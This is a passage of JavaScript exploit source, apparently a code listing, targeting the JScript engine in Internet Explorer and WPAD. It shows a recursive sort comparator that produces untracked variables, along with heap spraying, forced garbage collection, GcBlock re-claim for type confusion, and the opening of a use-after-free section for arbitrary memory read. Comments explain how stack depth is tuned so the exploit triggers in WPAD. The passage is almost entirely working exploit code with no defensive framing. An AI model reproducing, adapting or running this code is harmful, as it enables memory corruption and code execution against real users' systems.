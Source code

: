     function GlitchedComparator(Untracked1, Untracked2) {
        Untracked1 = VarSpray[SortDepth*2];
        Untracked2 = VarSpray[SortDepth*2 + 1];

        if(SortDepth >= 150) {
            VarSpray = new Array(); // Erase references to sprayed vars within GcBlocks
            CollectGarbage(); // Free the GcBlocks
            UntrackedVarSet.push(Untracked1);
            UntrackedVarSet.push(Untracked2);
        }
        else {
            SortDepth += 1;

            // There is a difference between the stack size between WPAD and Internet Explorer. In IE, a stack overflow exception will occur around depth 250 however in WPAD it will occur on a depth of less than 150, ensuring a stack overflow exception/alert will be thrown in the exploit. This try/catch in conjunction with a global initialization of the sort array allows the depth to be sufficient to produce an untracked var which will overlap with the type confusion offset in the re-claimed GcBlock.

            try {
                SortArray[SortDepth].sort(GlitchedComparator);
            }
            catch(ex) {
                VarSpray = new Array(); // Erase references to sprayed vars within GcBlocks
                CollectGarbage(); // Free the GcBlocks
            }

            UntrackedVarSet.push(Untracked1);
            UntrackedVarSet.push(Untracked2);
        }

        return 0;
    }

    function NewUntrackedVarSet() {
        SortDepth = 0;
        VarSpray = new Array();
        NameListAnchors = new Array();
        UntrackedVarSet = new Array();
        for(var i = 0; i < NameListAnchorCount; i++) NameListAnchors[i] = new Object(); // Overlay must happen before var spray
        for(var i = 0; i < VarSprayCount; i++) VarSpray[i] = new Object();
        CollectGarbage();
        SortArray[0].sort(GlitchedComparator); // Two untracked vars will be passed to this method by the JS engine
    }

    ////////
    ////////
    // UAF re-claim/mutable variable code (used for arbitrary read)
    ////////

    var AnchorObjectsBackup;
    var LeakedAnchorIndex = -1;
    var SizerPropName = Array(570).join('A');
    var MutableVar;
    var ReClaimNameList;
    var InitialReClaim = true;
